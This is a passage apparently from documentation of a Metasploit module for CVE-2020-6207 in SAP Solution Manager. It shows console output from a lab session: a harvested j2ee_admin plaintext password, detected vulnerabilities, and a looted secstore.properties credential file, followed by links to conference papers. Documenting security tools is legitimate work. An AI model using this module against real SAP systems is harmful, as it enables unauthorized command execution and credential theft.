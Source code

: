 ```
[*] Delete script: ginMlA2izrNi on agent: test_linux
[*] Server stopped.
[*] Auxiliary module execution completed
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > creds
Credentials
===========

host          origin        service           public      private    realm  private_type  JtR Format
----          ------        -------           ------      -------    -----  ------------  ----------
172.16.30.46  172.16.30.46  50000/tcp (soap)  j2ee_admin  asdQWE123         Password

msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                                                               References
---------                ----          ----                                                                                               ----------
2021-03-27 17:49:37 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution                                     CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207
2021-03-27 17:49:41 UTC  172.16.30.14  Diagnostics Agent in Solution Manager, stores unencrypted credentials for Solution Manager server  CVE-2019-0307,URL-https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf

msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > loot

Loot
====

host          service  type                          name                                                            content     info                                path
----          -------  ----                          ----                                                            -------     ----                                ----
172.16.30.14           smdagent.secstore.properties  /usr/sap/DAA/SMDA98/SMDAgent/configuration/secstore.properties  text/plain  SMD Agent secstore.properties file  /Users/vladimir/.msf4/loot/a228e5f820edc34bc767-20210327204941_SAP_TEST_172.16.30.14_smdagent.secstor_283920.txt

```


[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/